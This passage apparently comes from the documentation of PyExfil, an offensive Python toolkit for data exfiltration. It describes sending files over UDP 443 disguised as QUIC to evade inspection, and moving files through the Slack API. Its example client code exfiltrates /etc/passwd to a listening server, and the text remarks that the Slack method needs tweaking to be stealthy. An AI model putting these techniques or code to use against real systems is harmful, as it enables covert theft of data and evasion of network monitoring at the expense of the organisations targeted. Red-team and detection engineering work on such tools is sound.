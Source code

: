 
#### QUIC
With this method, we exfiltrate files over UDP 443 as to look like QUIC. Currently, it is written as first PoC and less as a functional tool. For example, will only work with one file at a time and not concurrent. Validity only checks MD5 and not individual packets (server does not request missing chunks from client, which it should). Nevertheless, this seems to work fine in several checks we've done and seems viable exfiltration for single file.

In the future, we should add the things mentioned above. Currently, this does not seem like there is a profiling that can be done on these streams as they appear to be identified by all interceptors as QUIC and unresolvable to the content (while QUIC uses true SSL, this uses AES which still gives a binary blob which is meaningless).

Server:
```python
from pyexfil.network.QUIC.quic_server import HTTPSExfiltrationServer

server = HTTPSExfiltrationServer(host="127.0.0.1", key="123")
server.startlistening()
```

Client:
```python
from pyexfil.network.QUIC.quic_client import QUICClient

client = QUICClient(host='127.0.0.1', key="123", port=443)      # Setup a server

# This part is just for debugging and printing, no read use
a = struct.unpack('<LL', client.sequence)                       # Get CID used
a = (a[1] << 32) + a[0]
sys.stdout.write("[.]\tExfiltrating with CID: %s.\n" % a)

client.sendFile("/etc/passwd")                                  # Exfil File
client.close()
```

#### Slack
Slack exfiltration uses the Slack API to move files around. Please notice you will need to tweak the code to make it stealthy. Right now it is defaultly designed to be noisy and appear on the user's log to make sure you're using this in a 'good' manner.

Since a lot of organizations use Slack today and in our personal anecdote most of them don't monitor, restrict or validate the utilization of it, we've decided to find creative way to do that. Especially since Slack is allowed on firewalls for organizations that work with it, it uses SSL and is rarely monitored it is a very interesting prospect for involuntary backups...

Server:
```python
from pyexfil.network.Slack.slack_server import SlackExfiltrator

slackExf = SlackExfiltrator(slackSlaveID="11111FD", slackToken="xoxo-abc", encKey="Abc!23")
slackExf._connect2Slack()
slackExf.Listen()
```
